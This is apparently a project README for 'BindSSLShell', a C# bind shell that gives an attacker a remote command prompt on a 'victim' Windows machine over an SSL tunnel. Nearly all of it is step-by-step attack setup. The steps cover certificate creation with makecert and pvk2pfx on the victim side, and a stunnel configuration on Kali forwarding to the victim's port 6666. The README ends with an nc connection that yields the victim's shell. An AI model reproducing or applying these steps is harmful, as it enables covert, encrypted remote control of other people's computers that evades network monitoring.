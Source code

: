 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: 
   >makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: 
   >pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx
   1. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info:<br/>https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc

1. install stunnel:
	>apt-get install stunnel
1. configure stunnel to forward nc traffic over his ssl tunnel. we must create the file <b>/etc/stunnel/stunnel.conf</b> with the following content:
	>[nc]<br/>
	>client = yes<br/>
	>accept = localhost:8443<br/>
	>connect = <Victim IP>:6666<br/>
	
	<br/>so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
1. start stunnel
	>service stunnel4 start
		
1. check if it's running (optional)
	>netstat -tulp
	the output should be similar to:
	>Active Internet connections (only servers)
	>Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	>tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	>tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

1. presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	>nc localhost 8443
	
1. you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
